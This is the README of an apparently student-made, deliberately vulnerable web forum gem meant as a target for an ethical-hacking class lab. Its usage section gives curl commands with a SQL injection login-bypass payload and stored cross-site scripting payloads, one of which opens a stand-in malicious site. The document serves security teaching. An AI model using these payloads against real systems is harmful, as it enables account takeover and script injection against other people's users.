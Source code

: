 # Vulnerable Forum
This is a vulnerable web forum to act as dummy application to be the punching bag for whilst doing my ethical hacking lab for class.

## Installation

    $ gem install vulnerable_forum

## Usage


#### SQL Injection 
SQL Inject the login form however you'd like, even at the command-line!:

```shell
> curl localhost:4567 --cookie "cookies.txt" --cookie-jar "cookies.txt"
Welcome to the forum!
Total Users: 1
Total Posts: 2

> curl -X POST localhost:4567/login \ 
    -d "username=' or ''='&password=' or ''='" \ 
    --cookie "cookies.txt" \ 
    --cookie-jar "cookies.txt"
Welcome back John!

> curl localhost:4567 --cookie "cookies.txt" --cookie-jar "cookies.txt"
Welcome to the forum, John!
Total Users: 1
Total Posts: 2
```

#### Stored Cross-Site Scripting
Stored XXS attacks are fun, huh?:

```shell
> curl -X POST localhost:4567/posts \ 
  -d "title=Hacked&content=<script>alert('Hacked!')</script>" \
  --cookie "cookies.txt" \
  --cookie-jar "cookies.txt"

> curl -X POST localhost:4567/posts \ 
  -d "title=Hacked&content=<script>window.open('maliciouswebsite.com');</script>" \
  --cookie "cookies.txt" \
  --cookie-jar "cookies.txt"
```

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).
